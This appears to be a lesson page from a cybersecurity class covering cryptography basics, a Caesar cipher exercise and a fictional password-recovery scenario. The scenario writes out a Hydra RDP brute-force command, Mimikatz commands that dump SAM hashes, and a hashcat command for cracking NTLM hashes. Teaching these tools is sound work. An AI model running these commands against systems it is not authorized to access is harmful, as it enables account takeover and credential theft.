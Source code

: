 # Tuesday July 12th 2022

![Tree](https://external-content.duckduckgo.com/iu/?u=https%3A%2F%2Fi.pinimg.
com%2Foriginals%2F5e%2Fb0%2F21%2F5eb021c27b4968359b6d39b05c2f42dd.jpg&f=1&nofb=1)

## 📆 Today's Schedule

- **Introductions**: 1:30 PM - 1:40 PM (10 Minutes)
- **Cryptography Overview**: 1:40 PM - 2:20 PM (40 Minutes)
- **Break**: 2:20 PM - 2:30 PM (10 Minutes)
- **RDP Brute Force and Mimikatz Demo**: 2:20 PM - 2:50 PM (30 Minutes)
- **Password Cracking**: 2:50 PM - 3:20 PM (30 Minutes)
- **Break**: 3:20 PM - 3:30 PM (10 Minutes)
- **Password Security**: 3:30 PM - 4:00 PM (30 Minutes) 

---

## 🫡  Introductions

- Your names again
- Anything you guys did this weekend

??? info "In The News 🎾"
    
    Novak Djokovic ✅ vs Nick Kyrgios in Wimbledon Final

    ![Wimbledon](https://external-content.duckduckgo.com/iu/?u=http%3A%2F%2Fwww
    .klinikobatkuat.com%2Fwp-content%2Fuploads%2F2022%2F07%2F2022-Mens-Wimbledo
    n-Final-Djokovic-vs-Kyrgios-Predictions.jpg&f=1&nofb=1)

## 🔐 Cryptography

??? question "What Is Cryptography"

    Hide things in plain sight 🔭

??? question "Historical Ways To Hide Things In Plain Site?"
    **Roman Scytale**

    ![Scytale](https://external-content.duckduckgo.com/iu/?u=https%3A%2F%2Fs3.
    amazonaws.com%2Fs3.timetoast.com%2Fpublic%2Fuploads%2Fphotos%2F10215247%2F
    scytale.jpg%3F1497195448&f=1&nofb=1) 

    **Cipher Wheel**

    ![Cipher Wheel](https://external-content.duckduckgo.com/iu/?u=http%3A%2F%2F
    creationpie.com%2FW%2FOPTICAL1.IMG%2Fwheel2.gif&f=1&nofb=1)

    **Enigma Machine**

    ![Enigma](https://external-content.duckduckgo.com/iu/?u=https%3A%2F%2Fs3.
    amazonaws.com%2Fs3.timetoast.com%2Fpublic%2Fuploads%2Fphotos%2F6648159%2FEn
    igma-machine.jpg%3F1477535463&f=1&nofb=1)

    ??? info "Alan Turing"

        Computer Science goat
    
        ![Alan](https://external-content.duckduckgo.com/iu/?u=https%3A%2F%2Fwww.the
        famouspeople.com%2Fprofiles%2Fimages%2Falan-turing-1.jpg&f=1&nofb=1)

        Watch **The Imitation Game** if you want to learn more about what he did
        in WW2 for the Allies.

        "Turing Machine"

??? example "Cipher Wheel Rot-Any (Caesar Cipher)"

    Visit: [Online Cipher Wheel](https://computerscienced.co.uk/site/caesar-
    cipher-wheel/caesar-shift-encryption/)

    !!! warning "Your Tasks"

        1. Encrypt **"hello world"** with a shift of 5

        2. Decrypt **"xlrtn dsza"** and figure out the shift amount

        3. Encrypt a unique message, and give it to someone to decrypt. Don't 
        tell them the shift amount

    Is this type of encryption secure?

??? info "Keyed Encryption"

    **Types**

    **Symmetric Key**
        - Keyed Rotation Cipher 
        - DES
        - AES

    **Asymmetric Key**
        - Diffie Helman
        - RSA

    Pros and cons for each?

??? info "Hashing"
    
    - Really fast
    - How passwords are stored

## 💪 RDP Brute Force and Mimikatz Demo

!!! abstract "Jerry's Issue"

    Jerry is a Spongebob Squarepants superfan - some might call him obsessed

    ![Spongebob](assets/spongebob.jpg){ align = right } 

    On a rarely used computer he shares with his family, he has a lot of
    nostalgiac, Spongebob memories on there. The issue though is that he has 
    forgotten his password :(

    He has called Lazer Cyber Consulting to help him crack his password to get
    back into his account

    How could we help get his data back?

??? success "What is the first question we should ask about Jerry's password?"

    **Do you remember any words in the password?**

    We can narrow down our search list with known key words.

!!! example "What are some potential guesses for the password?"

!!! bug "The Attack"

    Our target computer IP address is: **10.37.129.3**

    Jerry has already let us know that **Remote Desktop Protocol** has been 
    enabled on his computer
    
    === "Prepare The Wordlist"

        **We want to isolate potential passwords** 

        ```
        # Get words from rockyou.txt and put them in sponge.txt
        grep spongebob /usr/share/wordlists/rockyou.txt/ > sponge.txt
        ```

    === "Launch the Hydra Attack"

        ```
        hydra -t 2 -V -l Jerry -P sponge.txt rdp://10.37.129.3
        ```
        
        -t 2 -> Run 2 connections at once

        -V -> verbose mode (show the login attempt for each one)

        -l Jerry -> login with username "Jerry"

        -P sponge.txt -> try passwords from sponge.txt

!!! abstract "Monika's Issue"    

    We have learned that Jerry's sister Monika would also like to access her
    account on the computer - but she has also forgotten her password. The main
    issue however is that she has no clue what her password would be.

!!! success "What To Do"

    We were given permission to run a malicious program from Jerry's administrator
    account in order to obtain the password hash for Monika. 

!!! warning "This Is Dangerous"

    We have had to disable all Windows Antivirus protection to run the program.

    Do not disable any Windows Defender Antivirus protections on your own
    computer unless you know what you are doing. Furthermore do not use this
    program on any computer that you do not have permission to do it on.

!!! bug "Mimikatz Attack"

    === "Launching Mimikatz"

        We installed the program Mimikatz on Jerry's admin account.

        ```./mimikatz.exe```

    === "Obtaining The Hashes"

        ```
        token::elevate
        lsadump::sam
        ```

    === "Cracking The Hashes"

        Using `hashcat` we can try breaking the NTLM hashes.

        ```
        hashcat -m 1000 <hashlist> <rockyou> -O
        ```

# 🗝 Password Cracking





